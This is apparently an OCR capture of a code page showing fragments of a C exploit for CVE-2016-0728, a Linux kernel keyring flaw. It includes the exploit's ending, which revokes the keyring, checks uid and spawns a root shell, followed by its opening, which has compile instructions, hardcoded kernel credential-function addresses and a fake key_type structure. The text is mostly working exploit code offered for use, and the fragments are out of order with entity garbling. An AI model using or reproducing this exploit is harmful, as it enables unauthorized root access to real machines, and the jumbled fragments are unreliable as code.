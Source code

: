 ``` c++
 }
 }
 
 puts(&quot;finished forking&quot;);
 sleep(5);
 
 /* call userspace_revoke from kernel */
 puts(&quot;caling revoke...&quot;);
 if (keyctl(KEYCTL_REVOKE, KEY_SPEC_SESSION_KEYRING) == -1) {
 perror(&quot;keyctl_revoke&quot;);
 }
 
 printf(&quot;uid=%d, euid=%d\n&quot;, getuid(), geteuid());
 execl(&quot;/bin/sh&quot;, &quot;/bin/sh&quot;, NULL);
 
 return 0;
}&lt;/pre&gt;
&lt;pre&gt;
```



`cve_2016_0728.c`

``` c++
/* $ gcc cve_2016_0728.c -o cve_2016_0728 -lkeyutils -Wall */
/* $ ./cve_2016_072 PP_KEY */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <keyutils.h>
#include <unistd.h>
#include <time.h>
#include <unistd.h>

#include <sys/ipc.h>
#include <sys/msg.h>

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;

#define STRUCT_LEN (0xb8 - 0x30)
#define COMMIT_CREDS_ADDR (0xffffffff81094250)
#define PREPARE_KERNEL_CREDS_ADDR (0xffffffff81094550)



struct key_type {
    char * name;
    size_t datalen;
    void * vet_description;
    void * preparse;
    void * free_preparse;
    void * instantiate;
    void * update;
    void * match_preparse;
    void * match_free;
    void * revoke;
    void * destroy;
};

```